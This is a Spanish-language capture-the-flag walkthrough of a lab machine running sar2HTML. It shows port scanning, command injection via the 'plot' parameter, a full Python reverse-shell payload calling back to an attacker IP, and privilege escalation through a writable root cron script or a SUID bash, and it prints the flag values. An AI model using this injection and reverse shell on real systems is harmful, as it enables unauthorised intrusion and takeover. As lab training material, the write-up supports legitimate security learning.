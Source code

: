 Comenzamos escaneando los puertos abiertos de la máquina víctima.

`sudo nmap 192.168.238.35 -sS -p- --open --min-rate 5000 -n -Pn -oG allPorts`

![1](Images/1.png)

Una vez tenemos los puertos abiertos, se los pasamos a nmap para que con un conjunto de scripts de reconocimiento nos indique qué versiones y servicios están corriendo.

`nmap 192.168.238.35 -sCV -p22,80 -oN target`

![2](Images/2.png)

Tenemos SSH y una web. El index de la misma es Ubuntu Default page en p80, por lo que toca mirar más a fondo.

Antes de lanzar fuerza bruta de directorios, vamos a ver si tiene un robots.txt que pudiera arrojarnos información.

![3](Images/3.png)

Probamos sar2HTML tal y como aparece en /robots.txt

![4](Images/4.png)

Podemos ver que parece un conversor en sar2html (tal y como indica su nombre) en la versión 3.2.1. Si buscamos en searchsploit:

`searchsploit sar2html`

![5](Images/5.png)

Tenemos RCE.

Si observamos el 47204.txt, vemos unas intrucciones.

![6](Images/6.png)

Parece que podemos ejecutar comandos directamente:

`http://192.168.238.35/sar2HTML/index.php?plot=;id`

Acto seguido hacemos click en "Select Host" y podemos ver el output de nuestro comando. Para este caso concreto (id), podemos ver www-data:

![7](Images/7.png)

Vamos a intentar mandarnos una revshell con python: 

- Abrimos listener con netcat:

`nc -nlvp 4444`

![8](Images/8.png)

- Enviamos:

`192.168.238.35/sar2HTML/index.php?plot=;export RHOST="192.168.45.180";export RPORT=4444;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'`

![9](Images/9.png)

Estamos dentro como www-data.

En /home/local.txt encontramos la flag de usuario.

`whoami && ip addr && cat local.txt`

![10](Images/10.png)

valor local.txt: 59b123f0d7e88a5fea7c046f43bb0a36

# PRIVESC

`cat /etc/crontab`

![11](Images/11.png)

Cada 5 minutos se está ejecutando por el usuario root el siguiente script:

![12](Images/12.png)

Que a su vez ejecuta:

![13](Images/13.png)

Es decir, cada 5 minutos se ejecuta finally.sh, que a su vez ejecuta write.sh.

Si observamos los permisos de write.sh, vemos que www-data es owner y que también podemos modificar su contenido:

![14](Images/14.png)

Dado que podemos modificar el contenido de write.sh, las dos formas más rápidas para escalar privilegios son:
- Modificar el script para que nos envíe una reverse shell a nuestra máquina
- Otorgar privilegio SUID a la bash.

![15](Images/15.png)

Esperamos a que se ejecute por root y nos mande la revshell con privilegios.

![16](Images/16.png)

![17](Images/17.png)

Y comprobamos la vía de escalada de privilegios a través de SUID a la bash:

![18](Images/18.png)

En /root/root.txt encontramos la flag de root.

`whoami && ip addr && cat proof.txt`

![19](Images/19.png)

Valor proof.txt: de6c604c2a2778c9854f69067b5dd9b5
